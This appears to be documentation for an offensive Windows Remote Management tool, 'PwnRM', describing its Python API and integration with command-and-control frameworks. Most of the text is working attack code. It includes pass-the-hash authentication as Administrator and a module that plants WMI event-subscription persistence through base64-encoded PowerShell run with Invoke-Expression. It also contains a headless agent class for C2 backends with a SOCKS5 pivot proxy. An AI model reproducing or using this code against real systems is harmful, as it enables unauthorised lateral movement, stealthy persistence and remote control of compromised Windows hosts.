

# 05 - Python Library API & C2 Framework Integration

## 1. Programmatic Architecture Overview

PwnRM v2.0 is designed with a strictly decoupled programmatic API. All interactive shell functions are thin wrappers around the core library objects:



---

## 2. Core Python API Reference

### 2.1 Low-Level Runspace & Streaming Generator Execution

```python
from pwnrm.core.credentials import NTCredential
from pwnrm.core.transports import SPNEGOTransport
from pwnrm.core.runspace import Runspace

# 1. Instantiate credentials (NTLM hash or plaintext password)
creds = NTCredential(
    domain="CORP",
    username="Administrator",
    nt_hash="aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0"
)

# 2. Configure transport with SSRF and proxy isolation
transport = SPNEGOTransport(
    endpoint="http://10.0.0.5:5985/wsman",
    credential=creds
)

# 3. Open stateful Runspace pool
with Runspace(transport, timeout=30) as rs:
    # Generator yields real-time dictionary records
    for record in rs.run_command("Get-Process | Select-Object -First 3"):
        if "stdout" in record:
            print(f"[STDOUT] {record['stdout']}", end="")
        elif "error" in record:
            print(f"[STDERR] {record['error']}", end="")
        elif "debug" in record:
            print(f"[DEBUG]  {record['debug']}", end="")
```

---

## 3. Extending the Platform: Custom Module Development

Every PwnRM module inherits from [`BaseModule`](file:///D:/PwnRM/src/pwnrm/modules/__init__.py) and implements the `run(self, shell, args)` interface:

```python
"""
pwnrm.modules.custom_persistence
Example custom module installing a WMI event subscription persistence.
"""
from typing import List, Any
from pwnrm.modules import BaseModule
from pwnrm.shell.commands import b64str
from pwnrm.shell.ui import c, G, R, Y, BLD

class WMIPersistenceModule(BaseModule):
    name = "wmi_persist"
    description = "Install WMI Event Subscription Persistence (CommandLineEventConsumer)"
    author = "RedTeamOperator"
    options = {
        "--name": {"desc": "Name identifier for WMI Filter/Consumer/Binding"},
        "--command": {"desc": "Payload command line to execute on trigger"},
        "--trigger": {"desc": "Event trigger (startup | logon | interval)"},
    }

    def run(self, shell, args: List[str]) -> Any:
        sub_name = "UpdateCheck"
        command = "powershell.exe -enc ..."
        
        for i, a in enumerate(args):
            if a == "--name" and i + 1 < len(args):
                sub_name = args[i + 1]
            elif a == "--command" and i + 1 < len(args):
                command = args[i + 1]

        shell.write_info(c(Y, f"  [*] Deploying WMI Persistence subscription: '{sub_name}'"))

        # Build PowerShell payload with single-quote escaping (_pse)
        ps_code = f"""
        $filter = Set-WmiInstance -Namespace root\\subscription -Class __EventFilter -Arguments @{{
            Name = '{shell._pse(sub_name)}';
            EventNamespace = 'root\\cimv2';
            QueryLanguage = 'WQL';
            Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
        }}
        $consumer = Set-WmiInstance -Namespace root\\subscription -Class CommandLineEventConsumer -Arguments @{{
            Name = '{shell._pse(sub_name)}';
            CommandLineTemplate = '{shell._pse(command)}'
        }}
        Set-WmiInstance -Namespace root\\subscription -Class __FilterToConsumerBinding -Arguments @{{
            Filter = $filter;
            Consumer = $consumer
        }}
        Write-Host "[+] WMI Subscription '{shell._pse(sub_name)}' successfully bound."
        """

        encoded = b64str(ps_code.encode("utf-16le"))
        exec_cmd = f"Invoke-Expression ([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('{encoded}')))"
        
        output = shell.run_sync(exec_cmd)
        shell.write_line(output)
        return {"status": "deployed", "name": sub_name}
```

---

## 4. Embedding PwnRM into Custom Command & Control (C2) Frameworks

PwnRM can function as a headless WinRM execution subsystem inside automated Python-based C2 orchestrators (e.g. Mythic agents, Havoc extensions, custom C2 backends):

```python
import asyncio
from pwnrm.core.session_mgr import SessionManager
from pwnrm.core.tunnel import Socks5Server
from pwnrm.core.transports import SPNEGOTransport
from pwnrm.core.credentials import NTCredential
from pwnrm.core.runspace import Runspace

class HeadlessWinRMAgent:
    def __init__(self):
        self.session_mgr = SessionManager()
        self.socks_proxy = Socks5Server(bind_host="127.0.0.1", bind_port=1080)

    def connect_node(self, host: str, user: str, domain: str, nt_hash: str) -> int:
        creds = NTCredential(domain=domain, username=user, nt_hash=nt_hash)
        transport = SPNEGOTransport(f"http://{host}:5985/wsman", creds)
        runspace = Runspace(transport)
        runspace.open()
        
        node = self.session_mgr.register_session(
            runspace=runspace,
            transport=transport,
            target_info={"host": host, "user": user, "domain": domain}
        )
        return node.session_id

    def execute_task(self, session_id: int, command: str) -> str:
        node = self.session_mgr.sessions.get(session_id)
        if not node or not node.is_alive:
            raise RuntimeError(f"Session {session_id} is inactive")
        
        output_chunks = []
        for rec in node.runspace.run_command(command):
            if "stdout" in rec:
                output_chunks.append(rec["stdout"])
        return "".join(output_chunks)

    def start_proxy(self):
        self.socks_proxy.start()

    def stop_proxy(self):
        self.socks_proxy.stop()
```
